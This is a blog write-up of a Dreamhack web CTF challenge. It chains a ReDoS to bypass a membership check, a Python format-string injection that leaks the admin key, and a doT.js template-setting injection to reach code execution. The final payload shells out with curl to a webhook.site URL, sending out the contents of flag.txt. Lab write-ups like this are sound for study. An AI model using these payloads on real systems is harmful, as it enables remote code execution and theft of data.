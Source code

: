 ```yaml
---
title: gunpo
date: 2025-10-16 07:48:00 +0800
categories: [Cybersecurity]
tags: [dreamhack, web]
description: Level 7 web exploitation challenge on Dreamhack.io
---
```


### The Challenge
[https://dreamhack.io/wargame/challenges/2212](https://dreamhack.io/wargame/challenges/2212)

![](/assets/img/posts/gunpo/img1.png)
*This challenge was a pain...*

Solving this challenge took me an embarrassingly long amount of time. It's a good example of when using your brain is actually more effective than endlessly prompting DeepSeek...

Reading through `app.js`, we can see that we need to first become a member:

```js
app.get('/auth',async (req,resp)=>{
    let auth=await axios.get('http://127.0.0.1:8001/auth?phone='+req.query.phone)
    let auth_data=auth.data
    if(auth_data==1){
        membership=0
        resp.send('not member....')
    }else{
        membership=1
        resp.send('I love U♥')
    }    
})
```

Then, we can effectively trigger the `/change` endpoint to try to leak the admin key:

```js
app.get('/change',async (req,resp)=>{
    let name=req.query.name||"강드림"
    let info=req.query.info
    if(membership!=1){
        name=name.slice(0,5)
        info=["membership","only"]
    }
    let params={
        'name':name,
        'info':info
    }
    let change=await axios.get('http://127.0.0.1:8001/change',{params, paramsSerializer: params => qs.stringify(params, { arrayFormat: 'repeat' })})
    resp.send(change.data)
})
```

(The request is sent to this suspicious Python server)

```py
class Person:
    def __init__(self, name: str, info: list):
        self.name=name
        self.info=info

    def __repr__(self):
        return f"{self.name!r}${self.info!r}".format(self=self)


@app.get("/change")
def create(name: str,info: List[str]=Query(default=[])):
    global user
    try:
        data=Person(name,info)
        user_info=repr(data).split('$')
    except:
        user_info="""{"강드림":"['한국', '군포', 'DREAMHACK@ACSC.com','ACSC....']"}"""
    user={}
    user[user_info[0]]=user_info[1]
    del data
    return "change!"
```

The last step after leaking the admin key is to use this suspicious endpoint on `app.js` to change some arbitrary property on the `doT.js` templating engine to achieve RCE.

```js
app.get('/option',(req,resp)=>{
    const adminKey=fs.readFileSync('admin.key').toString()
    if(adminKey!=req.query.key){
        resp.send("admin only")
        return
    }
    let input=req.query
    dot[input['option']][input['beauty']]=input['input']
    dots=dot.process({path:"./views"})
    resp.send("more beauty!")
})
```

It seems quite impossible to become a member as these functions are just nonsense. Running on port 8001 is this code:

```py
@app.get("/auth")
def auth(phone:str):
    if("admin" in phone.lower()):
        return 1
    try:
        data=requests.get("http://localhost:7999/check?phone="+phone,timeout=10)
    except:
        return
    if(data.text=="member"):
        return 0
    else:
        return 1
```

And running on port 7999 is this code:

```js
app.get('/check',(req,resp)=>{
    const phone=req.query.phone
    const Pattern=/(01|0|6|9|7|1)*-[0-9]{4}-[0-9]{4}$/
    match=Pattern.exec(phone.toLowerCase())
    if(match==null){
        resp.send(-1)
        return
    }
    if(list.indexOf(match[0])==-1){
        resp.send("not member")
        return
    }
    resp.send("member")
})
```

I'm not even going to try to bypass and authenticate using that regex...

However if you read the Python code closely, it will return nothing and authenticate you as a member if you cause the `requests.get` call to raise an exception.

How can we achieve this? There's a `timeout=10` on the `requests.get` call. I immediately thought of ReDoS (Regex DoS) when I saw this.

I found this ReDoS checker (which conveniently gives you a ReDoS payload to use) here: [https://devina.io/redos-checker](https://devina.io/redos-checker)

![](/assets/img/posts/gunpo/img2.png)
*ReDoS payload acquired!*

Submitting that payload to the `/auth` endpoint, we successfully become a member.

The next step is to somehow leak the admin key.

```py
class Person:
    def __init__(self, name: str, info: list):
        self.name=name
        self.info=info

    def __repr__(self):
        return f"{self.name!r}${self.info!r}".format(self=self) # suspicious
```

Why is there a `.format` being used with an f-string? I gave this code to my best friend (DeepSeek) and it gave me a payload to use: `{self.__class__.__init__.__globals__[key]}`

The f-string runs first, and the string that runs `.format` looks something like this: `{self.__class__.__init__.__globals__[key]}$...`

`.format` sees the curly braces and evaluates the expression in them.

Submitting this as `name` lets you leak the admin key:

![](/assets/img/posts/gunpo/img3.png)
*The admin key shows up as your name on the homepage.*

Now that have arbitrary property assignment on `dot`, it shold be quite easy to get RCE... right?

NO!!! I spent the next hour foolishly prompting DeepSeek to give me a payload that would lead to RCE on `dot`. DeepSeek kept hallucinating up payloads that didn't actually work, so I decided to look at the `dot` source code myself: [https://github.com/olado/doT/blob/master/doT.js](https://github.com/olado/doT/blob/master/doT.js)

The `dot` templating engine writes Javascript code and executes it as a function. I found a possible vector where we could inject our own code easily:

![](/assets/img/posts/gunpo/img4.png)
*Here we can inject our own code!*

The final payload I came up with is: `'hi'));process.mainModule.require('child_process').execSync("curl https://webhook.site/9fa381f7-e53c-49c3-96a8-6c92c51f6d3e/?a=$(cat flag.txt)");//`

All we have to do is submit this in the `/option` endpoint like this: `/option?key=403ddb5cad9c0ed7&option=templateSettings&beauty=doNotSkipEncoded&input=%27hi%27));process.mainModule.require(%27child_process%27).execSync("curl https://webhook.site/9fa381f7-e53c-49c3-96a8-6c92c51f6d3e/?a=$(cat flag.txt)");//`

Checking the webhook, we finally receive the flag.

![](/assets/img/posts/gunpo/img5.png)
*Flag!!*